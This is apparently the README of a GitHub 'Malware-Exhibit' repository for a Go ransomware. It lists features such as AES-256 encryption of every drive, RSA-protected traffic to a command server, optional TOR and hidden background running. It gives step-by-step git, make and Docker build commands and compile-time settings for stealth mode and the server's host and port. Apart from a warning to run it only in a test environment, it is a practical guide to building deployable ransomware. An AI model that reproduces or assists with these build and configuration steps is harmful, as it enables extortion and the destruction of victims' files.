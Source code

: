 - Run in Background (or not)
- Encrypts files using AES-256-CTR(Counter Mode) with random IV for each file.
- Multithreading.
- RSA-4096 to secure the client/server communication.
- Includes an Unlocker. Coz I never meant to hurt you...🤭 {Eminem}
- Optional TOR Proxy support.
- Uses AES CTR Cypher with stream encryption to avoid loading an entire file into memory.
- Walk all drives by default.
- Docker image for compilation.
- Tried to create a .ova..........TRIED😔

## 👉 Building the binaries ☠️

> DON'T RUN ransomware.exe IN YOUR PERSONAL MACHINE, EXECUTE ONLY IN A TEST ENVIRONMENT! It will encrypt all your disks!

First, download the project outside your $GOPATH:

```bash
git clone github.com/alvin-tosh/Malware-Exhibit/tree/main/Advanced%20Malware/Kenyatta%20ransomware
cd ransomware
```

> If you have Docker skip to the next section.

You need Go at least 1.11.2 with the `$GOPATH/bin` in your $PATH and `$GOROOT` pointing to your Go installation folder. For me:

```bash
export GOPATH=~/gopath
export PATH=$PATH:$GOPATH/bin
export GOROOT=/usr/local/go
```

Building the project requires a lot of steps, like the RSA key generation, build three binaries, embed manifest files, so, let `make` do your job:

```bash
make deps
make
```

You can build the server for windows with `make -e GOOS=windows`.

### ✊ Docker ☠️

```bash
./build-docker.sh make
```

### 👊 Config Parameters ☠️

You can change some of the configs during compilation. Instead of running `make` only, you can use the following variables:

```bash
HIDDEN='-H windowsgui' # optional. If present the malware will run in background

USE_TOR=true # optional. If present the malware will download the Tor proxy and use it to contact the server

SERVER_HOST=mydomain.com # the domain used to connect to your server. localhost, 0.0.0.0, 127.0.0.1 works too if you run the server on the same machine as the malware

SERVER_PORT=8080 # the server port, if using a domain you can set this to 80

GOOS=linux # the target os to compile the server. Eg: darwin, linux, windows
```
